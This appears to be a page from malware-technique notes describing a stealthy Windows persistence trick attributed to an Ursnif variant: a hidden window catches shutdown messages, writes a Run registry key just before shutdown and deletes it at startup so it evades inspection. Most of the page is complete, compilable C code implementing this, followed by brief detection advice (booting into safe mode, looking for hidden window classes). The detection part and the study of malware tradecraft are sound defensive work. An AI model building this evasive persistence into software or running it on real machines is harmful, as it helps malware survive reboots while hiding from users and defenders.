

# Install & Remove Persistence on Shutdown & Startup
By creating an invisible window class, you can watch for system shutdown messages and install your persistence mechanism just before Windows shuts down. Then when you program starts up, you delete the registry key.
Examples•
https://www.cybereason.com/blog/new-ursnif-variant-targets-japan-packed-with-new-features (go to NEW STEALTHY PERSISTENCE MECHANISM heading)
•
## Window Class Messages
https://docs.microsoft.com/en-us/windows/win32/winmsg/window-classeshttps://docs.microsoft.com/en-us/windows/win32/winmsg/windowingA window class is a set of parameters your define that the OS uses to create a GUI window.
These windows can receive events, and they respond to these events.
e.g. clipboard is used, keyboard is pressed, etc.
https://docs.microsoft.com/en-us/windows/win32/winmsg/about-messages-and-message-queuesThere are also messages for when the system is being shutdown, or going to sleep.
You can use these to install persistence when the system shuts down.
### System Shutdown Messages
WM_QUERYENDSESSION is sent when a user calls a system shutdown function.
It covers system shutdown, system restart, and user logoff.
WM_ENDSESSION is sent after the results of the shutdown request are processed and informs the application the session is ending (we're closing down).
https://docs.microsoft.com/en-us/windows/win32/shutdown/wm-queryendsessionhttps://docs.microsoft.com/en-us/windows/win32/shutdown/wm-endsession### System Suspension Messages
WM_POWERBROADCAST notifies that a power-management event has occured
(system will suspsend, or sleep, etc.)
PBT_APMSUSPEND notifies that the system is suspending.
PBT_APMRESUMESUSPEND notifies that the system has resumed after suspension.
https://docs.microsoft.com/en-us/windows/win32/power/wm-powerbroadcastFrom my testing Run keys don't get deleted by system Sleep.
## Code
/*
Compile as Release x64.
Creates an invisible window that watches for system shutdown messages.
Upon catching a shutdown, it writes a persistence key to "Computer\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" as "persist"
Don't click OK on the MessageBox, that will cause the program to exit. Just run the program, see the MessageBox, then shutdown - persistence will install.
Program will then run on reboot and delete persistence key.
*/
#include <stdio.h>
#include <Windows.h>
int InstallRunPersistence(void)
{
BOOL okay = TRUE;
LSTATUS lstat_ret = 0;
HKEY h_key = NULL;
char exe_path[MAX_PATH] = { 0 };
// get path to current exe
GetModuleFileNameA(NULL, exe_path, MAX_PATH);
// create key
lstat_ret = RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &h_key);
if (lstat_ret != ERROR_SUCCESS)
goto cleanup;
// set Run key
lstat_ret = RegSetValueExA(h_key, "persist", 0, REG_SZ, (BYTE*)exe_path, sizeof(exe_path));
if (lstat_ret != ERROR_SUCCESS)
goto cleanup;
cleanup:
if (h_key) RegCloseKey(h_key);
return lstat_ret;
}
int RemoveRunPersistence(void)
{
BOOL okay = TRUE;
LSTATUS lstat_ret = 0;
HKEY h_key = NULL;
// open key (KEY_SET_VALUE perms needed for deletion)
lstat_ret = RegOpenKeyExA(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &h_key);
if (lstat_ret != ERROR_SUCCESS)
goto cleanup;
// delete "persist" key
lstat_ret = RegDeleteValueA(h_key, "persist");
if (lstat_ret != ERROR_SUCCESS)
goto cleanup;
cleanup:
if (h_key) RegCloseKey(h_key);
return lstat_ret;
}
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
switch (uMsg)
{
case WM_QUERYENDSESSION: // WM_QUERYENDSESSION catches shutdown, restart, and logoff
InstallRunPersistence();
return TRUE; // return 1 to WM_QUERYENDSESSION to allow system shutdown
default:
return DefWindowProc(hwnd, uMsg, wParam, lParam);
}
return 0;
}
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
BOOL b_ret = FALSE;
int i_ret = 0;
// create invisible window class
HWND hwnd = NULL;
const wchar_t class_name[] = L"invisible";
WNDCLASS wc = { 0 };
wc.lpfnWndProc = WindowProc;
wc.hInstance = hInstance;
wc.lpszClassName = class_name;
RegisterClassW(&wc);
hwnd = CreateWindowW(class_name, L"invisible", WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, NULL, NULL, hInstance, NULL);
ShowWindow(hwnd, SW_HIDE); // hide window
UpdateWindow(hwnd);
// remove persistence on startup
i_ret = RemoveRunPersistence();
if (i_ret == 0)
MessageBoxA(NULL, "removed run persistence!", "info", MB_OK);
else
{
char fail_string[256] = { 0 };
sprintf_s(fail_string, 256, "removing run persistence failed: %d", i_ret);
MessageBoxA(NULL, fail_string, "info", MB_OK);
}
// program exeuction goes here...
MessageBoxA(NULL, "why hello there", "greetings", MB_OK);
//Sleep(INFINITE) // you CANNOT put Sleep(INFINITE) here, because your code to catch WM_QUERYENDSESSION will never run
return 0;
}
## Detection
### Boot into Safe Mode
On shutdown/suspension you install persistence.
On startup you delete your persistence.
To detect this persistence, boot into safe mode.
Booting into safe mode prevents any extra code from running on startup, which means the installed persistence won't be deleted and you can find it.
### Check for strange window classes
To catch system shutdown messages, a window class needs to be created.
Usually these are made invisible.
In WinLister,
Options > Display Hidden Windows , and check for any strange window classes.
You probably won't be able to find anything because it won't have a name and will blend in pretty well.
Here my window class is called
invisible (to make it obvious)
